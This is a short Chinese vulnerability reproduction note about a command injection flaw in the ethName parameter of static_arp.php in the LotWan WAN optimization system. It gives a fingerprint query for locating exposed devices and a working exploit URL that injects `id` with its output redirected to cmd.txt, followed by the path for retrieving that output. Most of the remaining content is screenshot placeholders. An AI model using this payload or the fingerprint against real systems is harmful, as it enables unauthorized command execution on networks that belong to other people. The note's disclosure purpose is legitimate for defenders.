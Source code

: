 # 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## 网络测绘

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182832800](images/202205191828884.png)

存在漏洞的文件为

```
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![image-20220519182841776](images/202205191828819.png)

再访问 `/acc/bindipmac/cmd.txt`

![image-20220519182859597](images/202205191828666.png)